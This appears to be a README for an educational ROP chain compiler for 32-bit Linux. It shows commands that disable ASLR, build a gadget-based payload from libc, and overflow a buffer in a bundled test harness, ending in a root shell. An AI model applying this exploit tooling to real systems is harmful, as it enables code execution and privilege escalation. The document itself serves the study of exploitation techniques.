 # ROP Chain Generator

## Intro
Rop Chain compiler for Linux x86 based OS. Tested on the following kali image: http://cdimage.kali.org/kali-2016.2/kali-linux-2016.2-i386.iso

ropbuilder will take as input one (or more) binaries, scan their executable sections for useful gadgets, and then assemble the right ones into a functional ROP payload to give executable permissions to the stack and then executes second staged shellcode.

roptester is simple tool that will create a dummy process, load the executable(s) that contain the gadgets, load the ROP payload and a fixed second-stage shellcode, and execute it.

## DEMO LINK
http://showterm.io/64db6d73974eb215be946

## Instructions to run
```
# STEP 0.0: disable ASLR
vijay@kali:~/ropchain/src$ sudo bash -c "echo 0 > /proc/sys/kernel/randomize_va_space"

# STEP 0.1: install distrom (Kali already has distrom installed)
vijay@kali:~/ropchain/src$ pip install distrom3

# STEP 1: Make roptester.c
vijay@kali:~/ropchain/src$ make clean && make

# STEP 2: Run ropbuilder
vijay@kali:~/ropchain/src$ ./ropbuilder.py
Usage: ./ropbuilder.py <binary_file1> <binary_file2> ...

vijay@kali:~/ropchain/src$ ./ropbuilder.py /lib/i386-linux-gnu/libc-2.23.so
[*] Loading gadgets from /lib/i386-linux-gnu/libc-2.23.so
[-] INT 0x80 not found
[*] CALL GS:[0x10] found
[*] POP EAX found
[*] POP EBX found
[*] POP ECX found
[*] POP EDX found
[*] CALL ESP found
[*] Generating exploit.py file

# STEP 3: Now you should have exploit.py file created
# Run roptester with same number of arguments(in same order) as you gave to ropbuilder.py.
# Roptester will load the libraries dynamically and find the base addresses from proc filesystem
# and update the base address values in exploit.py and generates the final payload file called
# payload.out and runs it by overflowing buffer located in itself(roptester).

vijay@kali:~/ropchain/src$ ./roptester
Invalid arguments.
Usage: ./roptester <libfile1> <libfile2> <libfile3> ...

vijay@kali:~/ropchain/src$ ./roptester /lib/i386-linux-gnu/libc-2.23.so
[*] Loaded library: /lib/i386-linux-gnu/libc-2.23.so
[*] Rebasing offsets in exploit.py

[*] cat /proc/11610/maps
08048000-08049000 r-xp 00000000 08:06 1700       /home/vijay/ropchain/src/roptester
08049000-0804a000 rw-p 00000000 08:06 1700       /home/vijay/ropchain/src/roptester
0804a000-0806b000 rw-p 00000000 00:00 0          [heap]
b7dff000-b7e00000 rw-p 00000000 00:00 0
b7e00000-b7fad000 r-xp 00000000 08:06 656611     /lib/i386-linux-gnu/libc-2.23.so
b7fad000-b7faf000 r--p 001ac000 08:06 656611     /lib/i386-linux-gnu/libc-2.23.so
b7faf000-b7fb0000 rw-p 001ae000 08:06 656611     /lib/i386-linux-gnu/libc-2.23.so
b7fb0000-b7fb3000 rw-p 00000000 00:00 0
b7fb3000-b7fb6000 r-xp 00000000 08:06 656634     /lib/i386-linux-gnu/libdl-2.23.so
b7fb6000-b7fb7000 r--p 00002000 08:06 656634     /lib/i386-linux-gnu/libdl-2.23.so
b7fb7000-b7fb8000 rw-p 00003000 08:06 656634     /lib/i386-linux-gnu/libdl-2.23.so
b7fd4000-b7fd6000 rw-p 00000000 00:00 0
b7fd6000-b7fd9000 r--p 00000000 00:00 0          [vvar]
b7fd9000-b7fdb000 r-xp 00000000 00:00 0          [vdso]
b7fdb000-b7ffd000 r-xp 00000000 08:06 656583     /lib/i386-linux-gnu/ld-2.23.so
b7ffd000-b7ffe000 rw-p 00000000 00:00 0
b7ffe000-b7fff000 r--p 00022000 08:06 656583     /lib/i386-linux-gnu/ld-2.23.so
b7fff000-b8000000 rw-p 00023000 08:06 656583     /lib/i386-linux-gnu/ld-2.23.so
bffdf000-c0000000 rw-p 00000000 00:00 0          [stack]

[*] Rebased line: IMAGE_BASE_0 = 0xb7e00000 # /lib/i386-linux-gnu/libc-2.23.so
[*] Generating payload.out
[*] Launching paylod
[*]
bash-4.3#
bash-4.3# whoami
root
bash-4.3# exit
exit
vijay@kali:~/ropchain/src$
```

